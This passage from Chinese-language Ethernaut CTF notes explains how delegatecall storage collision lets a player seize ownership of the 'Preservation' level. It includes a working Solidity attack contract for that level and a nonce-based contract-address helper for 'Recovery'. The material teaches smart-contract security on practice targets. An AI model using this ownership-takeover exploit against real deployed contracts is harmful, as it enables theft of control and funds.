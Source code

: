 ## 16-Preservation

delegatecall 修改的是和调用合约相同 slot 位置的状态变量，一个不小心就会被利用修改所有权

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./Preservation.sol";

contract Hack {
    // stores a timestamp
  uint storedTime;
  uint stored2Time;
  address owner;

  function hack(address _target) public {
      Preservation p = Preservation(_target);
      p.setFirstTime(uint256(uint160(address(this))));
      p.setFirstTime(uint256(uint160(msg.sender)));
  }

  function setTime(uint _time) public {
    owner = address(uint160(_time));
  }
}
```

## 17-Recovery

获取合约的地址：

```solidity
function addressFrom(address _origin, uint _nonce) public pure returns (address) {
    bytes memory data;
    if (_nonce == 0x00)          data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, bytes1(0x80));
    else if (_nonce <= 0x7f)     data = abi.encodePacked(bytes1(0xd6), bytes1(0x94), _origin, uint8(_nonce));
    else if (_nonce <= 0xff)     data = abi.encodePacked(bytes1(0xd7), bytes1(0x94), _origin, bytes1(0x81), uint8(_nonce));
    else if (_nonce <= 0xffff)   data = abi.encodePacked(bytes1(0xd8), bytes1(0x94), _origin, bytes1(0x82), uint16(_nonce));
    else if (_nonce <= 0xffffff) data = abi.encodePacked(bytes1(0xd9), bytes1(0x94), _origin, bytes1(0x83), uint24(_nonce));
    else                         data = abi.encodePacked(bytes1(0xda), bytes1(0x94), _origin, bytes1(0x84), uint32(_nonce));
    return address(uint160(uint256(keccak256(data))));
}
```
